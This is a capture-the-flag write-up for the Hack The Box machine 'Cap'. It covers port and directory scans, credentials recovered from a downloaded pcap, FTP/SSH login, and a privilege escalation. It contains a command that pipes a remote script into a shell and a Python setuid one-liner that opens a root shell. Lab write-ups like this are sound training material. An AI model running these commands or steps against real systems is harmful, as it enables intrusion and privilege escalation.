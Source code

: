 # Cap Writeup
<br>

## NMAP

```bash
nmap -sC -sV -p- cap.htb -oN cap_nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 01:06 EDT
Nmap scan report for cap.htb (10.10.10.245)
Host is up (0.026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.67 seconds
```

FTP anonymous access is NOT allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp cap.htb 
Connected to cap.htb.
220 (vsFTPd 3.0.3)
Name (cap.htb:netcur10s): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 

```

SSH password authentication allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ssh root@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
root@cap.htb's password: 
```

## GoBuster

Ran Gobuster to see if any directories of interest

```bash
┌──(netcur10s㉿lab-kali)-[~/HTB/Cap]
└─$ gobuster dir -u cap.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cap.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://cap.htb/]
/ip                   (Status: 200) [Size: 17465]
/netstat              (Status: 200) [Size: 32741]
/capture              (Status: 302) [Size: 222] [--> http://cap.htb/data/13]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Checked out the redirect address [http://cap.htb/data/13](http://cap.htb/data/13) which has a download button

![image.png](../images/cap/image.png)

Downloaded the file seems to be a pcap file 0.pcap

Searching through the pcap file for any good information

Able to find user credentials

![image1.png](../images/cap/image1.png)

Credentials found nathan:Buck3tH4TF0RM3!

## FTP(21)

Attempted to log into FTP under nathan and using this password Buck3tH4TF0RM3!

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp nathan@cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22860|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Aug 21 00:21 snap
-r--------    1 1001     1001           33 Aug 20 19:14 user.txt
226 Directory send OK.
ftp> 
```

## SSH(22)

These credential also work using SSH

```bash
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ 
```

Checking to see if curl & python are installed

```bash
nathan@cap:~$ which curl python3
/usr/bin/curl
/usr/bin/python3
```

Performing linpeas scan

```bash
nathan@cap:~$ curl http://10.10.14.61:80/linpeas.sh | sh
```

linpeas scanned and found a potential pkexec exploit and a Python binary vulnerability.

Checked GTFOBins for more information about the Python vulnerability.

```bash
Capabilities

If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

    cp $(which python) .
    sudo setcap cap_setuid+ep python

    ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

```

Attempted to execute > Successful!

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# 
```

Changed to root directory 

Listed current directory with `ls` command and used `cat` to print out to screen

```bash
# cd /root
# ls
root.txt  snap
# cat root.txt
```
